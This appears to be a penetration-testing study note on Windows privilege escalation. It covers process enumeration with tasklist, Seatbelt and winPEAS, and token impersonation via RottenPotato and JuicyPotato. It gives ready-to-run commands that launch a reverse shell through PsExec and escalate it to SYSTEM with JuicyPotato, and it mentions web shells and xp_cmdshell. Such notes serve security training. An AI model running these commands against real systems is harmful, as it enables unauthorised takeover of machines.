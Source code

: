 ## Installed Apps
* On [exploit-db](https://www.exploit-db.com/) we can select [Type: Local, Platform: Windows](https://www.exploit-db.com/?type=local&platform=windows). Then click the *Has App* checkbox, and in the search box put priv esc.
* We can manually enumerate all running programs using tasklist
`tasklist /V`
* We can also use Seatbelt.exe to search for nonstandard processes
`.\Seatbelt.exe NonstandardProcesses`
* We can also use winPEAS using the procesinfo option (note the misspelled proces)
`.\winPEASany.exe quiet procesinfo`
* Once you find an interesting process, use exploit-db (or google, or github) to find relevant exploits

## Token Impersonation
* Service accounts are usually local accounts on a specific system and are used to run a specific service. These accounts cannot be logged into directly.
* Multiple problems have been found with service accounts, making them suitable for privilege escalation.

### RottenPotato
* Service accounts could intercept a SYSTEM ticket and use it to impersonate the SYSTEM user.
* This was possible because service accounts often have the *SeImpersonatePrivilege" privilege enabled.
* Any user with *SeImperonatePrivilege* privilege can run the exploits below.

### JuicyPotato
* RottenPotato was quite limited exploit.
* JuicyPotato works in the same way as RottenPotato but the authors found many more ways to exploit it. [JuicyPotato GitHub](https://github.com/ohpe/juicy-potato)
* How to get a shell with a service account? 
  * For example if IIS runs with a service account and you can upload an asp shell you would have a reverse shell with that service account
  * Or if you have SQL injection on MSSQL with xp_cmdshell enabled you can get a shell that way with the MSSQL service account
* JuicyPotato is fixed on the most recent version of Windows 10

#### PsExec
1. You can run PsExec with the privileges of a service account to launch an executable of your choice such as a reverse shell. In the example below we will use the local service account which is a built-in service account in windows.
`.\PsExec64.exe -accepteula -i -u "nt authority\local service" reverse.exe`
2. Once we have a reverse shell we can check our privileges
`whoami /priv`
3. If you have the *SeImpersonatePrivilege* privilege you can run JuicyPotato
`.\JuicyPotato.exe -l 1337 -p C:\path\to\reverseshell.exe -t * -c {CLSID}`
Note: The -l must use an available local port, the -c must use a valid CLSID for the version of windows you are on. These CLSID's are available on the JuicyPotato GitHub, as well as a powershell script that can be used to enumerate valid CLSID's
